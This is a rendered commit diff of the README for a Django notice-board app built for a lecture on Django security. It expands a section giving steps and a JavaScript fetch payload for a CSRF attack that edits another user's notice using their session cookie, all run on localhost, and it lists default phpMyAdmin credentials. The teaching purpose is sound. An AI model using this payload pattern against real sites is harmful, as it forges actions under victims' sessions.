

Before and after one commit to antonioalanxs/board, a Markdown page: README.md, 3 parts joined by grey strips. Shown: that part at 94% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: Update README.md

````diff
--- a/README.md
+++ b/README.md
@@ -3,16 +3,25 @@
 ## Table of Contents
 
 1. [Overview](#overview)
+    - [Demonstration Video](#demonstration)
 2. [Installation](#installation)
-3. [Attack the application](#attack-the-application)
+    - [Prerequisites](#prerequisites)
+    - [Cloning the Repository](#cloning-the-repository)
+    - [Run the application](#run-the-application)
+    - [Sample users](#sample-users)
+    - [Stop the application](#stop-the-application)
+3. [Do the CSRF Attack](#do-the-csrf-attack)
+    - [Demonstration Video](#demonstration)
 4. [Features](#features)
+    - [Functional Requirements](#functional-requeriments)
+    - [Non-functional Requirements](#non-functional-requirements)
 5. [What have I learned?](#what-have-i-learned)
 
 ## Overview
 
-board is a minimalist notice board built using [HTML](https://developer.mozilla.org/en-US/docs/Web/HTML), [Tailwind CSS](https://tailwindcss.com/), [Django](https://www.djangoproject.com/), [MySQL](https://www.mysql.com/) and [Docker](https://www.docker.com/).
+board is a minimalist notice board built using [HTML](https://developer.mozilla.org/en-US/docs/Web/HTML), [Tailwind CSS](https://tailwindcss.com/), [Django](https://www.djangoproject.com/), [MySQL](https://www.mysql.com/), [phpMyAdmin](https://www.phpmyadmin.net/) and [Docker](https://www.docker.com/).
 
-This web application was used to give a lecture on the operation of Django and its security mechanisms. This lecture covers topics such as user authentication, URL protection, Middleware, CORS and CSRF Attack and Defense strategies.
+This web application was used to give a lecture on the operation of Django and its security mechanisms. This lecture covers topics such as user authentication, URL protection, Middleware, CORS and CSRF Attack/Defense strategies.
 
-### Demonstration of the application
+### Demonstration
 
@@ -37,7 +46,8 @@ cd board
 cd docker
 docker compose up --build
 ```
-The application is now running on your [localhost:8000](http://localhost:8000).
+
+The application is now running on your [localhost:8000](http://localhost:8000). Additionally, phpMyAdmin is running on your [localhost:8080](http://localhost:8080) with credentials `user` and `password`.
 
 ### Sample users
 
@@ -55,27 +65,31 @@ docker compose down
 
 The application was turned off.
 
-## Attack the application
+## Do the CSRF Attack
+
+
 
 1.  [Run the application](#run-the-application) and log in with an [user](#sample-users). This will cause the browser to save its `sessionid`.
 
-2.  Select the `slug` of the notice that you want to edit attacking it. You can do this using [phpMyAdmin](http://localhost:8080) or by looking at the notice URL.
+2.  Select the `slug` of the user's notice that you want to edit attacking it. You can do this using [phpMyAdmin](http://localhost:8080) or by looking at the notice URL.
 
-3.  Change current working directory to `attack-server` and Run Attack Server (e.g., `python -m http.server 5000`).
+3.  Change current working directory to `attack-server` and Run Attack Server on [localhost:5500](http://localhost:5500) (e.g., `python -m http.server 5500`).
 
-4.  The Attack Server will edit the notice by fetching its URL including the necessary cookies (stored in the browser previously when logging in, `sessionid`) so that the request is not denied.
-```javascript
-const slug = "3e2e62cf-35f2-4d8e-9244-8649a4748c52" // Example notice slug
+4.  Go to [localhost:5500](http://localhost:5500) and the Attack Server will execute the following code:
 
-fetch(`http://localhost:8000/update/${slug}`, {
-    method: "POST",
-    credentials: "include",
-    headers: {
-        "Content-Type": "application/x-www-form-urlencoded",
-    },
-    body: "title=attacker&content=attacker"
-})
-    .then(res => res.text())
-    .then(text => console.log(text))
-    .catch(err => console.error(err));
-```
+    ```javascript
+    const slug = "3e2e62cf-35f2-4d8e-9244-8649a4748c52" // Example user's notice slug
+
+    fetch(`http://localhost:8000/update/${slug}`, {
+        method: "POST",
+        credentials: "include", // sessionid Cookie stored in the browser previously when logging in the application
+        headers: {
+            "Content-Type": "application/x-www-form-urlencoded",
+        },
+        body: "title=attacker&content=attacker"
+    })
+        .then(res => res.text())
+        .then(text => console.log(text))
+        .catch(err => console.error(err));
+    ```
+
````
Also changed, not shown: other parts of README.md (+4 -1 lines).
